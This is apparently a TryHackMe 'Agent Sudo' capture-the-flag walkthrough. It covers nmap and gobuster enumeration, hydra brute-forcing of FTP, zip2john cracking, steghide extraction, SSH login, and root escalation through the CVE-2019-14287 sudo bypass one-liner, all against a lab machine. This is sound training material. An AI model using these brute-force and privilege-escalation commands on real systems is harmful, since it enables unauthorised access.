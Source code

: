 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2021-12-21 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

#### Task 2: [Enumerate](##Enumerate)
### Task 3: Hash cracking and [brute-force](#bruteforce)

### Task 4: Capture the user flag  
### Task 5: Privilege escalation


##  Enumerate
### nmap

### ip = 10.10.55.182
```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101306.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101415.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

# bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101444.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101527.png)


we got the file, concatenate it:  
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101543.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101614.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241023204845.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101901.png)

# Privilege escalation
Run sudo -l  
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101951.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016102023.png)
